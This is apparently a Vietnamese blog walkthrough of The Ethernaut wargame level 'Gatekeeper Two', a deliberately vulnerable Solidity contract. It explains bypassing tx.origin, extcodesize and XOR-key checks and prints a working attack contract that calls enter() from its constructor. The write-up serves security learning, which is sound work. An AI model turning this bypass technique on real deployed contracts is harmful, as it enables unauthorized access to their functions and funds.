 ```yaml
---
layout: post
title: "The Ethernaut: 14 - Gatekeeper Two"
mathjax: true
---
```

# 14. Gatekeeper Two 　★★★★★★

**Nhiệm vụ**: vượt qua 3 cánh cổng khác và thay đổi địa chỉ của cửa vào

```js
pragma solidity ^0.4.18;

contract GatekeeperTwo {

  address public entrant;

  modifier gateOne() {
    require(msg.sender != tx.origin);
    _;
  }

  modifier gateTwo() {
    uint x;
    assembly { x := extcodesize(caller) }
    require(x == 0);
    _;
  }

  modifier gateThree(bytes8 _gateKey) {
    require(uint64(keccak256(msg.sender)) ^ uint64(_gateKey) == uint64(0) - 1);
    _;
  }

  function enter(bytes8 _gateKey) public gateOne gateTwo gateThree(_gateKey) returns (bool) {
    entrant = tx.origin;
    return true;
  }
}
```

## Phân tích & Solution

Ta sẽ phân tích cách vượt qua từng cửa một giống như bài [GatekeeperOne](http://dotrungkien.github.io/2018/06/21/the-ethernaut-13/)

### Cửa số 1

```js
modifier gateOne() {
  require(msg.sender != tx.origin);
  _;
}
```

`tx.origin` sẽ là địa chỉ nguồn nơi phát đi giao dịch, là một ai đó, `msg.sender` là địa chỉ gọi tới hàm hiện tại

Có nghĩa là, khi ta gọi trực tiếp một hàm contract thông thường thì `msg.sender` và `tx.origin` là giống nhau, còn nếu ta gọi hàm đó thông qua một contract trung gian thì `tx.origin` vẫn sẽ là ta, nhưng `msg.sender` sẽ là contract trung gian.

Vì thế ta chỉ cần dùng một contract trung gian là có thể vượt qua cửa số 1.

### Cửa số 2

```js
modifier gateTwo() {
  uint x;
  assembly { x := extcodesize(caller) }
  require(x == 0);
  _;
}
```

`extcodesize(caller)` chính là lấy ra lượng code chứa trong `caller` gọi đến contract `GatekeeperTwo` này. `caller` có thể là người (account thông thường), cũng có thể là contract.

một điều kiện quan trọng ở đây chính là `require(x == 0)`, có nghĩa là `caller` không có tí code nào ? hay caller chỉ có thể là người. Điều này chẳng phải đã phủ nhận điều kiện ở gate 1 rồi hay sao ? làm thế nào để ta có thể qua được 2 cửa cùng một lúc được ?

Đó chính là lúc ta cần đến `yellow paper` - tài liệu đặc tả kỹ thuật của ethereum, trong đó có đoạn:

> During initialization code execution, EXTCODESIZE on the address should return zero, which is the length of the code of the account while
CODESIZE should return the length of the initialization cod

có nghĩa là trong contract thì trong constructor codesize vẫn là 0, chỉ sau khi hoàn thành constructor thì codesize mới có giá trị.

Điều này gợi ý ta vượt qua gate 2 bằng cách gọi hàm enter ngay trong constructor của contract tấn công, nó vừa đảm bảo ta dùng contract trung gian, lại vừa đảm bảo `codesize == 0`. Yeah!

### Cửa số 3

```js
modifier gateThree(bytes8 _gateKey) {
  require(uint64(keccak256(msg.sender)) ^ uint64(_gateKey) == uint64(0) - 1);
  _;
}
```

điều kiện này rất là dễ, chỉ đơn thuần là một phép *XOR* mà thôi. Ta biết rằng nếu `a XOR b = c` thì `b = a XOR c`, một tính chất rất cơ bản của *XOR*. Do đó:

```js
uint64(_gateKey) = uint64(keccak256(msg.sender)) ^ (uint64(0) - 1)
```

có một điều lưu ý ở đây, do chúng ta sử dụng contract trung gian để tấn công, vì thế địa chỉ `msg.sender` ở đây chính là địa chỉ của contract trung gian, nên trong code của contract trung gian, ta phải thay thế `msg.sender` bằng `address(this)`

Cuối cùng code của contract tấn công sẽ như sau:

```js
contract Backdoor {
  function Backdoor (address _target) public {
    GatekeeperTwo(_target).enter(bytes8((uint64(uint64(keccak256(address(this)))^(uint64(0) - 1)))));
  }
}
```

đơn giản phải không. Paste lên Remix, compile với địa chỉ `_target` là địa chỉ instance của bạn.

![png]({{ site.url }}/assets/images/GatekeeperTwo.png)

Kiểm tra lại xem entrant đã đổi thành địa chỉ của mình chưa ?

```js
await contract.entrant()
"0xf32fd9e7d64a3b90ce2e5563927eff2567ebd96b"
```

Submit && All done!

## Bình luận

Đây là một bài tập theo kiểu dạng "biết thì rất dễ, không biết thì không biết đằng nào mà lần". Phần `assembly { x := extcodesize(caller) }` thực sự là một trick rất khó nhằn.